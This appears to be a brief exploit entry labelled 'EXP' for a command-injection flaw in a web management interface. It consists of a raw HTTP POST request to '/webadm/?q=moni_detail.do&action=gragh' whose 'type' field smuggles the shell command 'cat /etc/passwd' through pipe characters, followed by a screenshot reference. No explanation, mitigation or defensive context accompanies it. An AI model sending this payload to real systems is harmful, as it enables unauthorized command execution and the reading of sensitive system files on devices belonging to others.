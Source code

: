 EXP
---

    POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 25
    Accept: */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
    Content-Type: application/x-www-form-urlencoded;charset=UTF-8
    Origin: chrome-extension://ieoejemkppmjcdfbnfphhpbfmallhfnc
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: EMPHPSID=ffah74s753ae239996a1mmbld0; empos=0
    Connection: close

    type='|cat /etc/passwd||'

![](20210410115846.png "20210410115846.png")